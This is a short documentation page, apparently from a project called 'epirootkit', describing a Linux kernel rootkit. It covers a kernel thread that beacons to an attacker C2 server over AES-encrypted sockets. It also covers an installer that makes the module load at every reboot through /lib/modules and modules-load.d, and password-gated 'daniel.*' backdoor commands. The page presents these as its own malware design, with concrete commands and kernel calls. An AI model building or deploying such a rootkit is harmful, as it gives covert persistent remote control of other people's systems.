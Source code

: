 ```yaml
---
title: "Encrypted C2, Persistence & Auth"
description: "Heartbeat threads, autoload, and password protection"
icon: "router"
date: "2025-05-11T18:30:00+01:00"
lastmod: "2025-05-11T18:30:00+01:00"
draft: false
toc: true
weight: 40
---
```


# 1. Encrypted C2 Heartbeat

**What we did**  
Spawn a kernel thread to poll our C2 server.

**How it works**  
1. `kthread_run(c2_thread_fn, &cfg, "epic2")`.
2. Loop:
   - `msleep(ping_interval_ms)`.
   - `kernel_socket()`, `kernel_connect(attacker_ip, port)`.
   - Exchange AES-128-CBC packets using keys from `.epirootkit-config`.

---

# 2. Persistence & Autoload

**What we did**  
Automatically load on reboot.

**How it works**  
Our `installer.sh`:
1. Copies `epirootkit.ko` to `/lib/modules/$(uname -r)/extra/`.
2. Runs `depmod -a`.
3. Writes `/etc/modules-load.d/epirootkit.conf` with:
   ```
   epirootkit
   ```
    
---

# 3. Password Protection

**What we did**  
Protect `daniel.*` commands with a salted hash.

**How it works**  
1. Store `SHA256(salt‖password)` in `/etc/epirootkit/passwd`.
2. First command must be  
   ```
   daniel.p.<hex-salted-hash>
   ```
3. We compare hashes; only then unlock the command interface.
```